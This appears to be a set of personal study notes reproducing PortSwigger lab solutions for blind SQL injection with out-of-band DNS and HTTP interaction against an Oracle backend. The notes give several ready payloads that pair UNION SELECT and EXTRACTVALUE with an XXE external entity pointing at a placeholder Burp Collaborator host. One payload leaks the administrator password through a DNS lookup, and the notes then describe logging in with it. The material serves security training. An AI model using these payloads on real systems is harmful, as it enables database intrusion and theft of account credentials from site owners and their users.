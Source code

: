 ```jBLFcMbX0aiwI7lY'||(SELECT ‘')||'```
    ``` TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual-- ```

    The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator client to verify that your payload had indeed triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.

**My comment**

```' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-COLLABORATOR-ID.burpcollaborator.net/"> %remote ;]>'),'/l') FROM dual--```

### Blind SQL injection with out-of-band data exfiltration

The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.
The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

**Solution**
1. Visit the front page of the shop, and use Burp Suite Professional to intercept and modify the request containing the *TrackingId* cookie.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Modify the *TrackingId* cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:

    ``` TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual-- ```

5. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
6. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the *administrator* user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
7. In your browser, click "My account" to open the login page. Use the password to log in as the *administrator* user.

**My comment**

It is needed burp profesional 

```'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--```
